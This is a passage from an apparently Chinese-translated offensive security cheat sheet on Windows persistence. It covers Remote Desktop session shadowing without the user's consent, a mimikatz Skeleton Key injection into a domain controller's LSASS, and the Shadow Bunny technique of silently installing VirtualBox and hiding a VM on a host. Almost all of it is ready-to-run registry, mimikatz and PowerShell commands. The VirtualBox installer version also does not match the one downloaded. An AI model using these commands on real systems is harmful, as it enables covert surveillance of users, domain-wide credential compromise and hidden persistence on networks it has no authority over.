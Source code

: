### 远程桌面服务影子

:warning: FreeRDP和rdesktop不支持远程桌面服务影子功能。

要求：

* RDP必须运行

```powershell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 4
# 4 – 在未经用户许可的情况下查看会话。

# 允许远程连接到这台计算机
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


# 禁用UAC远程限制
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

mstsc /v:{ADDRESS} /shadow:{SESSION_ID} /noconsentprompt /prompt
# /v参数用于指定{ADDRESS}值，该值是远程主机的IP地址或主机名；
# /shadow参数用于指定{SESSION_ID}值，该值是被影子会话的会话ID；
# /noconsentprompt参数允许绕过被影子用户的权限，在未经其同意的情况下影子他们的会话；
# /prompt参数用于指定连接到远程主机的用户凭据。
```

### 骨架钥匙

> 向域控制器的LSASS进程中注入主密码。

要求：

* 域管理员（SeDebugPrivilege）或`NTAUTHORITY\SYSTEM`

```powershell
# 执行骨架钥匙攻击
mimikatz "privilege::debug" "misc::skeleton"
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>

# 使用密码“mimikatz”访问
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```


### 虚拟机

> 基于Shadow Bunny技术。

```ps1
# 下载virtualbox
Invoke-WebRequest "https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe" -OutFile $env:TEMP\VirtualBox-6.1.8-137981-Win.exe

# 执行静默安装并避免创建桌面和快速启动图标
VirtualBox-6.0.14-133895-Win.exe --silent --ignore-reboot --msiparams VBOX_INSTALLDESKTOPSHORTCUT=0,VBOX_INSTALLQUICKLAUNCHSHORTCUT=0

# 在\Program Files\Oracle\VirtualBox\VBoxManage.exe中
# 禁用通知
.\VBoxManage.exe setextradata global GUI/SuppressMessages "all" 

# 下载虚拟机磁盘
Copy-Item \\smbserver\images\shadowbunny.vhd $env:USERPROFILE\VirtualBox\IT Recovery\shadowbunny.vhd

```